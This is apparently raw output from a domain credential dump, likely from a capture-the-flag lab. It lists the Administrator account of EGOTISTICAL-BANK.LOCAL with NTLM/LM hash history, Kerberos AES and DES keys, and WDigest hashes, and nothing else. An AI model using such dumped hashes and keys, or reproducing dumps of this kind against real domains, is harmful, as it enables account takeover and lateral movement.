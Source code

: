 ```bash
** SAM ACCOUNT **

SAM Username         : "Administrator"
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 8:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
 " Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e"
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
      aes128_hmac       (4096) : a9f3769c592a8a231c3c972c4050be4e
      des_cbc_md5       (4096) : fb8f321c64cea87f
    OldCredentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OlderCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : fb8f321c64cea87f
    OldCredentials
      des_cbc_md5       : 19d5f15d689b1ce5

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4a06d28f92506a3a336d97a66b310fa
    02  71efaf133c578bd7428bd2e1eca5a044
    03  974acf4f67e4f609eb032fd9a72e8714
    04  b4a06d28f92506a3a336d97a66b310fa
    05  79ba561a664d78d6242748774e8475c5
    06  f1188d8ed0ca1998ae828a60a8c6ac29
    07  801ddc727db9fa3de98993d88a9ffa8b
    08  a779e05da837dd2d303973304869ec0f
    09  ac2c01846aebce4cbd4e3ec69b47a65d
    10  6d863d6ae06c3addc49b7a453afe6fa0
    11  a779e05da837dd2d303973304869ec0f
    12  6676b9fdd4aa7f298f1ada64c044c230
    13  5a01167d750636d66e5602db9aece9b7
    14  f702282bd343c2fee7b98deac8950390
```